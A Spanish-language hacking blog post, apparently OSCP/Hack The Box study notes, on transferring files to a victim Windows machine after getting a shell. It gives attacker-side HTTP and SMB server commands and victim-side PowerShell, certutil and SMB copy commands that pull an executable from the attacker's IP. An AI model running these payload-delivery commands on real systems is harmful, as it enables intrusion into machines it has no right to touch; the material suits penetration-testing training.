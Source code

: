 ```yaml
---
layout: single
title: Transferir archivos despues de la explotacion
excerpt: "En este post escribo como transferir archivos despues haber explotado una maquina y tener una shell inversa"
date: 2020-11-10
classes: wide
header:
  teaser: /assets/images/Transferir-archivos-despues-de-Explotacion-Windows/transfer-files.jpg
  teaser_home_page: true
categories:
  - Hacking
tags:
  - OSCP
  - HTB
  - Hacking
---
```


![](/assets/images/Transferir-archivos-despues-de-Explotacion-Windows/transfer-files.jpg)

Hola a todos, hoy escribire un post de como transferir archivos a una maquina victima. El escenario pensado es que pudimos hackear una maquina victima, hemos obtenido una shell. Sin embargo por diversos motivos nesecitamos transferir archivos a dicha maquina. Asi que pongo unas tecnicas que he ido aprendiendo

# Transferir archivos despues de la explotacion

_Despues obtener una shell es nesecario transferir archivos desde la maquina atacante a la maquina victima_
aqui escribire unos metodos:

> Para esta Prueba de Concepto mi IP sera 10.10.14.99 

## Metodo 1

### Atacante

```bash
python3 -m http.server 80
```

### Victima

#### Powershell

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.99/bfill.exe', 'c:\Users\Public\Downloads\bfill.exe')"
```
#### Certutil

```bash
certutil.exe -f -urlcache -split http://10.10.14.99/bfill.exe bfill.exe
```

## Metodo 2 - SMB Server

### Atacante

```bash
impacket-smbserver NombreCarpetaCompartida rutaCarpetaCompartida
```

### Victima

```bash
copy \\10.10.14.99\\NombreCarpetaCompartida\ArchivoDentrodeCarpeta.exe
```

